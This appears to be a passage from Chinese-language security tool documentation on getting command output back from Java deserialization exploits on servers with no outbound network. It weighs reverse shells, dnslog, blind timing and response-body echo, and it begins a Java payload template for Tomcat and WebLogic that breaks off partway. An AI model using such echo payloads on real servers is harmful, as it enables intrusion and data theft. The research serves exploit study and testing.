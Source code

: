 ```yaml
---
sidebar_position: 2
---
```


# Java 反序列化回显链研究

回显方案选择

实战中反序列化漏洞利用时，经常会遇到不出网的情况，命令执行成功，但拿不到执行结果，也不能回连

这种情况可能是内网主机网络配置，禁用了tcp/dns/icmp等协议的出网，再通过nginx将web服务代理出来，或类似方式。内网主机不通公网，但公网可以通过web端口和内网主机通信

执行结果的传出可以通过下面几种方式

1. 反弹shell，dnslog回显（需要出网）
2. 写脚本，通过延时，类似布尔盲注的方式得到执行结果（效率太低，不太现实）
3. 将执行结果写入到web目录下（要先获取到web路径）
4. 通过执行java代码，将命令执行结果直接写到web请求的响应包中（需要代码执行）

| / | 反弹shell，dnslog回显  | 通过延时爆破回显的脚本  | 写到web目录  | 将回显内容写到响应包
|  ----  | ----  | ----  | ----  | ----  |
| 优点  | 简单方便 | 应用范围广 | 简单方便 | 稳定高效
| 缺点  | 需要机器出网 | 需要机器出网 | 需要知道web路径 | 需要可以代码执行

因为web端口可以和外界通讯（收到请求包，返回响应包），所以最优方案就是通过请求包发送命令，响应包回传执行结果

## 通过java代码执行回显

<div align="center">
    <img src="/img/products/yakit/research-echo.svg" />
</div>

## 生成回显class模板

因为不同web框架，获取到web请求的方式不同，所以，需要针对不同web框架，分别制作一套模板

也可以把多套模板合并，通过加载的类判断当前环境。代码编写时，最好通过反射加载class，来适应更多环境。

代码如下，合并了tomcat和weblogic框架的paylaod

```java
import java.lang.reflect.Field;
import java.util.List;
import java.util.Scanner;

public class MultiEchoTempl {
    static String cmd ="whoami";
    public MultiEchoTempl(){
        start();
    }
    static {
        start();
    }
    private static void start(){
        try{
            Class.forName("org.apache.tomcat.util.buf.ByteChunk");
            tomcat();
            return;
        } catch (Exception ignored){

        }
        try {
            Class.forName("weblogic.work.ExecuteThread");
```